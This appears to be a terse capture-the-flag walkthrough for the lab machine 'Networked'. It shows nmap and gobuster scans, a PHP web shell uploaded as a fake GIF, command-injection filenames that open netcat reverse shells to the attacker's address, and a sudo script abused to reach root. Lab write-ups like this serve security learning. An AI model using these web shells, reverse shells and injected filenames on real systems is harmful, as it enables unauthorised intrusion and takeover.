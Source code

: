 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Networked
# 15/3/2023
10.10.10.146

----------------------------------------------------
# nmap
----------------------------------------------------
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
443/tcp closed https

----------------------------------------------------
# gobuster
----------------------------------------------------
gobuster dir -u http://10.10.10.146 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -t 40 -x .php 
/uploads              (Status: 301) [Size: 236] [--> http://10.10.10.146/uploads/]
/index.php            (Status: 200) [Size: 229]
/photos.php           (Status: 200) [Size: 1302]
/upload.php           (Status: 200) [Size: 169]
/lib.php              (Status: 200) [Size: 0]
/backup               (Status: 301) [Size: 235] [--> http://10.10.10.146/backup/]



----------------------------------------------------
# exploitation
----------------------------------------------------
└─$ nano shell.php
<?php system($_GET["cmd"]);?>


addmagic byte and extentiong as gif GIF8;
then upload to /upload.php 

then go to /photos.php 

and call the shell
http://10.10.10.146//uploads/10_10_16_2.php.gif?cmd=id

bingo code execution

got a shell

----------------------------------------------------
# priv esc
----------------------------------------------------
now
└─$ nc -lvnp 9001 
cd /var/www/html/uploads
touch -- ';nc -c bash 10.10.16.2 9001;.php'
or 
touch '; nc 10.10.16.2 8888 -c bash'

we have guly's shell
[guly@networked ~]$ sudo -l
    (root) NOPASSWD: /usr/local/sbin/changename.sh


for root
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
scientist
scientist
interface PROXY_METHOD:
noob
noob
interface BROWSER_ONLY:
yes                                                                                                                 
yes                                                                                                                 
interface BOOTPROTO:                                                                                                
TCP bash  

and we got root
GG!
